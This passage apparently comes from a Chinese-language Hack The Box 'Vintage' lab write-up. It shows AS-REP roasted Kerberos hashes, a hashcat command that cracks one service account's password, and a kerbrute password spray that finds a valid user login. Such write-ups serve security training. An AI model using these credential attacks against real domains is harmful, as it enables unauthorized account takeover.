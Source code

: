 ```
$krb5asrep$23$svc_ldap@VINTAGE.HTB:2e8eb8a54f2e38ceb86cb167ebcfd3a3$4009fa7585adf1b1ce1e62ea59ef0e1db4569403621261a531e062559d9d62eef6bf55b181f10661ddb6de9030ff78d1dcd91a0920ff7c885fb2d85e1e8a2b2bd9894de70f8f6ef413254c150398269766b930f789c8a883b4a45326235480e46fee1db81736e4e1ce86f261a6ea2ddd7c3a6646e59a67b9bf4ff771ccfecc2354df616afedc768a022234517b88b95184b9fbdd90eb43b52ef883720b83be869de267f99ce70da020a4899900c454f3be18a0b85b2c1248a159219c34e85c888edb8f2a09af6d9c4a4d14766d0f248cfbc0a57cdace833cd589aa550de0f9e35ded67ad616ed0adbdbb
$krb5asrep$23$svc_ark@VINTAGE.HTB:ab991bf5f1ab56057d523c8b04f54993$6d178e1becf696f67f3b6c15f1d67a05570282f82e529a20b932253e72a3a62fd3c6662441c08154a9bd798a3079eb12b4cc104853611229183656c0254292f5b37be0d5a868b0a1b5b4940d40a3be5a1c402e44740b4fa42cd839cde7541268504c924d71b6dd3e6fe72400427d12bd7852cd6e61270b97d006224c5e0732406a6f7598a200e2acbd1d8f4c1ca47c028ab53ddd2d4de9efb98bfb49c2d962fe20bf98fef71d65c48ab252a288f53fac475cce8ddd1e30820a1df9dc058c877ae1e6e1bdcfe3954cbec461dcc085497914c8eb6d910010d4690377bbfedc160b604a1e4132a4e00de923
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set                                                   
```

尝试使用hashcat进行爆破

```
└─# hashcat -a 3 -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --show
$krb5asrep$23$svc_sql@VINTAGE.HTB:21f3bee616690890b5888e3e18d56582$89e966c8c984fdba49c4a5cb373407959a53c78fe823bcb599e4bff22df326780d2a869ed1572467797244c4b2f50a49af143612ee467dba34784a66a5805ad1d556e129838c3107a40259d80edafb2e6f88c80a77a4b3d30d5069a69d3a6b7f001f2fa3251faa17706a7fd255a96c3bfadf10f93e049b0fcc1f41227af5dbefee1ae906f23bfc4d1c6b0f7a8f4328ecce63b45e6944157f88d814830c568fb59763f1d6e785736d5ec368c6d27968c399eaa339067dc32783df85920ae876d3241bace19475691d6373cd0700771659a90d15a4cfeeb1dd89a5a6659b2c6316863e475ce228ac83274f:Zer0the0ne
```

得到SVC\_SQL密码：Zer0the0ne

使用kerbrute对user进行爆破

- [Releases · ropnop/kerbrute (github.com)](https://github.com/ropnop/kerbrute/releases)

```
└─# ./kerbrute --dc vintage.htb -d vintage.htb -v passwordspray usernames.txt Zer0the0ne

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 12/04/24 - Ronnie Flathers @ropnop

2024/12/04 09:36:16 >  Using KDC(s):
2024/12/04 09:36:16 >   vintage.htb:88

2024/12/04 09:36:16 >  [!] krbtgt@vintage.htb:Zer0the0ne - USER LOCKED OUT
2024/12/04 09:36:17 >  [!] Guest@vintage.htb:Zer0the0ne - USER LOCKED OUT
2024/12/04 09:36:17 >  [!] gMSA01$@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] FS01$@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] M.Rossi@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] L.Bianchi@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] R.Verdi@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] DC01$@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] G.Viola@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] Administrator@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] svc_sql@vintage.htb:Zer0the0ne - USER LOCKED OUT
2024/12/04 09:36:17 >  [!] P.Rosa@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] svc_ark@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] L.Bianchi_adm@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] svc_ldap@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [!] C.Neri_adm@vintage.htb:Zer0the0ne - Invalid password
2024/12/04 09:36:17 >  [+] VALID LOGIN:  C.Neri@vintage.htb:Zer0the0ne
```